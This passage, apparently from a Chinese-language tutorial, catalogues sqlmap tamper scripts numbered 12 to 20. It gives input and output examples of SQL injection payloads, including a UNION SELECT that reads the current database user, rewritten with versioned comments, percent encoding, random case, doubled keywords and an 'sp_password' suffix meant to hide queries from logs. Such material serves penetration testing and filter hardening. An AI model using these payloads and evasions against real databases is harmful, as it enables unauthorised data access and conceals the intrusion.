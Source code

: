```
Input: value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa 
Output: value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)), NULL, NULL#/*!0AND 'QDWa'='QDWa 
Requirement: 
MySQL < 5.1 

(12) ifnull2ifisnull.py 以”IF(ISNULL(A), B, A)”替换”IFNULL(A, B)” 
Example: 
Input: IFNULL(1, 2) 
Output: IF(ISNULL(1), 2, 1) 
Requirement: 
MySQL 
SQLite (possibly) 
SAP MaxDB (possibly) 

(13) modsecurityversioned.py 条件注释 
Example: 
Input: 1 AND 2>1-- 
Output: 1 /*!30000AND 2>1*/-- 
Requirement: 
MySQL 

(14) modsecurityzeroversioned.py 条件注释，0000 
Example: 
Input: 1 AND 2>1-- 
Output: 1 /*!00000AND 2>1*/-- 
Requirement: 
MySQL 

(15) multiplespaces.py 添加多个空格 
Example: 
Input: UNION SELECT 
Output:  UNION   SELECT 

(16) nonrecursivereplacement.py 可以绕过对关键字删除的防注入（这个我也不知道怎么说好，看例子。。。） 
Example: 
Input: 1 UNION SELECT 2-- 
Output: 1 UNUNIONION SELSELECTECT 2-- 

(17) percentage.py 在每个字符前添加百分号（%） 
Example: 
Input: SELECT FIELD FROM TABLE 
Output: %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E 
Requirement: 
ASP 

(18) randomcase.py 随即大小写 
Example: 
Input: INSERT 
Output: InsERt 

(19) randomcomments.py 随机插入区块注释 
Example: 
'INSERT' becomes 'IN/**/S/**/ERT' 
securesphere.py 语句结尾添加”真”字符串 
Example: 
Input: AND 1=1 
Output: AND 1=1 and '0having'='0having' 

(20) sp_password.py 语句结尾添加”sp_password”迷惑数据库日志 
Example: www.2cto.com 
```